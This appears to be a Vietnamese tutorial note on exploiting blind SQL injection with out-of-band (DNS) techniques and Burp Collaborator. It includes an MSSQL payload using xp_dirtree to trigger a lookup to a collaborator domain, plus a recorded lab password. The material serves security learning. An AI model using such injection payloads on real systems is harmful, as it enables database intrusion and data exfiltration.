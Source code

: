 ![alt text](image-47.png)

Password: 4m6184iw1b9nthw0sexg

### Khai thác blind SQLi bằng kỹ thuật out-of-band (OAST)
Một ứng dụng có thể thực hiện cùng một truy vấn SQL như ví dụ trước nhưng thực hiện không đồng bộ. Ứng dụng tiếp tục xử lý yêu cầu của người dùng trong luồng gốc và sử dụng một luồng khác để thực thi truy vấn SQL bằng cookie theo dõi. Truy vấn vẫn dễ bị tấn công bởi SQL injection nhưng không có kỹ thuật nào được mô tả cho đến nay sẽ hoạt động. Phản hồi của ứng dụng không phụ thuộc vào truy vấn trả về bất kỳ dữ liệu nào, lỗi cơ sở dữ liệu xảy ra hoặc vào thời gian thực hiện truy vấn.\
Trong tình huống này, thường có thể khai thác lỗ hổng chèn SQL mù bằng cách kích hoạt các tương tác mạng ngoài băng tần với hệ thống mà bạn kiểm soát. Chúng có thể được kích hoạt dựa trên điều kiện được đưa vào để suy ra từng thông tin một. Hữu ích hơn, dữ liệu có thể được lọc trực tiếp trong tương tác mạng.\
Nhiều giao thức mạng có thể được sử dụng cho mục đích này, nhưng thông thường hiệu quả nhất là DNS (dịch vụ tên miền). Nhiều mạng sản xuất cho phép truy cập DNS miễn phí vì chúng cần thiết cho hoạt động bình thường của hệ thống sản xuất.\
Công cụ dễ dàng và đáng tin cậy nhất để sử dụng các kỹ thuật ngoài băng tần là *Burp Collaborator*. Đây là máy chủ cung cấp khả năng triển khai tùy chỉnh các dịch vụ mạng khác nhau, bao gồm cả DNS. Nó cho phép bạn phát hiện khi nào các tương tác mạng xảy ra do gửi tải trọng riêng lẻ đến một ứng dụng dễ bị tấn công. Burp Suite Professional bao gồm một ứng dụng khách tích hợp được định cấu hình để hoạt động với Burp Collaborator ngay lập tức. Để biết thêm thông tin, hãy xem tài liệu dành cho Cộng tác viên Burp.\
Các kỹ thuật kích hoạt truy vấn DNS dành riêng cho loại cơ sở dữ liệu đang được sử dụng. Ví dụ: đầu vào sau trên Microsoft SQL Server có thể được sử dụng để thực hiện tra cứu DNS trên một miền được chỉ định:\
`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`\
Điều này khiến cơ sở dữ liệu thực hiện tra cứu tên miền sau:\
`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`
